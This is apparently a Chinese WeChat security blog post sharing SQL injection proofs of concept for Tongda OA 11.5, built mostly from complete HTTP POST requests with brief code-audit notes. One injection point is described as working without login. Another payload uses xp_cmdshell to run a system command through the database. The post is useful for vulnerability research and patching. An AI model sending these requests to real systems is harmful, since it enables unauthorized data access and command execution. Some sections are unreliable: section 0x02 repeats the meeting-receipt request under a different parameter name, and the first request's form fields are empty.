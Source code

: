 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/RlOpohHvjHv_Qg3mNgDCAQ)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqczeflvHvDexuf2BhBEBYlJCdjJS6aVZ0w6ooY5QwK27L2khaJWEOVdw2kunkBTviakCv6QeGxYjHg/640?wx_fmt=png)  

**这是继：" 全网首发 | 通达 OA 多枚 0day 分享 "   对通达 OA 系统更加深入的一次审计，重新审计后又发现一些问题。**  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhsPUvJSpbZb7NeaHsZwbCCeyqvb7LYb2Jg61obhEibO1rmRuPMsriaI0Hg/640?wx_fmt=png)

  
**0x01** **SQL 注入 POC(11.5 版本无需登录):**  
**漏洞参数：**SORT_ID，FILE_SORT  
**审计版本：**通达 OA 11.5

```
POST /general/file_folder/swfupload_new.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/
Connection: close
Host: 192.168.202.1
Content-Length: 391
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2

------------GFioQpMK0vv2
Content-Disposition: form-data; 

------------GFioQpMK0vv2
Content-Disposition: form-data; 

------------GFioQpMK0vv2
Content-Disposition: form-data; 

------------GFioQpMK0vv2
Content-Disposition: form-data; 

------------GFioQpMK0vv2--
```

```
POST /general/file_folder/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/general/file_folder/public_folder.php?FILE_SORT=1&SORT_ID=59
X-Resource-Type: xhr
Cookie: PHPSESSID=g1njm64pl94eietps80muet5d7; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=fab32701
Connection: close
Host: 192.168.202.1
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 82
x-wvs-id: Acunetix-Deepscan/209
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
content-type: application/x-www-form-urlencoded; charset=UTF-8

CONTENT_ID_STR=222&SORT_ID=59&FILE_SORT=1&action=sign
```

看看下图，在我去掉 cookie 之后，发现一样能注入，我测试的 11.5 版本存在未授权也能注入。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhsibnTe2lGJEa66TYtJUuAGpO4SOn7PEDPkiaV6RPr2R8XFe3vIOicd7FHw/640?wx_fmt=png)

  
漏洞文件：**webroot\general\file_folder\swfupload_new.php** 。  
先看 SORT_ID 与 FILE_SORT 参数，这两个参数都 是通过 $data[""]; 来接收变量，都直接带入 SQL 查询语句中，没有做任何过滤，造成注入。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhsiaODsOnSibpWdW00f940ERC4s2ialPNK1wjGoSiaen1WV7llaWPPsqMklA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhshmibQEehEiaKOKXw9htEsdjrDzKDDYn9RE2umkIIRt4ibIpzMRkQBqXUA/640?wx_fmt=png)

  
**0x02** **SQL 注入 POC（有过滤）:**  
**漏洞参数：**CONTENT_ID_STR  
**审计版本：**通达 OA 11.5

```
POST /general/appbuilder/web/meeting/meetingmanagement/meetingreceipt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/general/meeting/myapply/details.php?affair=true&id=5&nosign=true&reminding=true
X-Resource-Type: xhr
Cookie: PHPSESSID=g1njm64pl94eietps80muet5d7; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=fab32701
Connection: close
Host: 192.168.202.1
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 97
x-wvs-id: Acunetix-Deepscan/186
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
content-type: application/x-www-form-urlencoded; charset=UTF-8

m_id=5&join_flag=2&remark='%3b%20exec%20master%2e%2exp_cmdshell%20'ping%20172%2e10%2e1%2e255'--
```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhswH64n58RtCdDIc0zIhyQbuvk5aiaUcM7714yqkzh5y9sgkfg8yJvbnw/640?wx_fmt=png)

  
漏洞文件：**webroot\general\file_folder\folder.php**。  
但是经过了 td_trim 函数，会过滤掉：空格、制表符、换行符、回车符、垂直制表符等。只能报错，或尝试 and 等语句判断还是没有问题的。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhsIOQshaUrhvmLv29MSEX6bPlsWicVOsXb0wcBvqzubw8YDyaWOiauQu3g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhsLMhwoP5ibic5R7QEFrxIMHQGwkTXX5EuetDpxVHibicBceVxKqXlFkk9Xw/640?wx_fmt=png)

  
如果有厉害的师傅会有戏，可以绕绕试试了，先放这里了。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhsFPibIf1dkKyX65qNI9ectNUV4jq8nCKcfZ3T3yJgLxSSrSGvibhHsCNw/640?wx_fmt=png)

  
**0x03** **SQL 注入 POC:**  
**漏洞参数：**remark  
**审计版本：**通达 OA 11.5

```
POST /general/appbuilder/web/meeting/meetingmanagement/meetingreceipt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/general/meeting/myapply/details.php?affair=true&id=5&nosign=true&reminding=true
X-Resource-Type: xhr
Cookie: PHPSESSID=g1njm64pl94eietps80muet5d7; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=fab32701
Connection: close
Host: 192.168.202.1
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 97
x-wvs-id: Acunetix-Deepscan/186
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
content-type: application/x-www-form-urlencoded; charset=UTF-8
m_id=5&join_flag=2&remark='%3b%20exec%20master%2e%2exp_cmdshell%20'ping%20172%2e10%2e1%2e255'--
```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhsNX3iaBIXl7SXPFhZMBMcSvsKG9XN5taibrHAeZRia85eolUzjhSAnE5wg/640?wx_fmt=png)

  
漏洞文件：**webroot\general\appbuilder\modules\meeting\models\MeetingReceipt.php**。漏洞存在于 $remark=$data['remark']; 与 $form->REMARK = $remark; 可以看到 remark 参数没有过滤，直接拼接到 insert 语句中造成的注入。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqcNGbibLvLMAyLEUTCdsTPhsmiaja1dMto8bjjEiacNP5lviayg7hbqWibltaR7C4zJRu1WJLQZBSibqtLQ/640?wx_fmt=png)

**END.**

**欢迎转发~**

**欢迎关注~**

**欢迎点赞~**